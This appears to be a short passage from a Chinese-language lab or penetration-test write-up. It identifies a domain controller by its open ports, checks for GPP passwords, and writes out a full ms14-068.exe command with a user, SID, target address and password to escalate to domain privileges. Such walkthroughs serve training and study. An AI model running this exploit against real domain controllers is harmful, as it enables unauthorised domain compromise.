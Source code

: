 ![](/images/2018-half-year-wp/35.png)

![](/images/2018-half-year-wp/36.png)

ifconfig /all 发现dns是192.168.100.10，推测是域控，从端口也可以推断出是域控（开放了88、389、53等端口）。

查询GPP密码，发现不存在历史密码。

使用ms14068进行攻击，上传ms14068.exe

```
ms14-068.exe -u test2@aclab.com -s S-1-5-21-4073582663-3176860511-3241980539-1103 -d 192.168.100.10 -p Test123/com
```
